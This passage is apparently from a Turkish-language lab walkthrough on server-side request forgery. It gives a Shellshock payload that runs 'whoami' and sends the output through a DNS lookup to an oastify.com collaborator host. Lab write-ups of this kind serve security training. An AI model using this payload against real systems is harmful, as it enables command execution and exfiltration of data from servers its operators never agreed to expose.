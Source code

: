 ![Untitled](0x16%20Server-Side%20Request%20Forgery%20Nedir%20d3c4b2ebcb764d66b80606cea77bf5a5/Untitled%2034.png)

Bu noktada artık **Shellshock** exploit’lerine bakmamız lazım. Kullanacağımız payload, lab ortamının da bizden istediği bilgileri elde edebileceğimiz bir şekilde olması gerektiğinden dolayı bu şekilde olmalıdır; 

```python
() { :; }; nslookup $(whoami).9r1gkbi8d28pf6aba2y65dutokubi26r.oastify.com
```

![Untitled](0x16%20Server-Side%20Request%20Forgery%20Nedir%20d3c4b2ebcb764d66b80606cea77bf5a5/Untitled%2035.png)
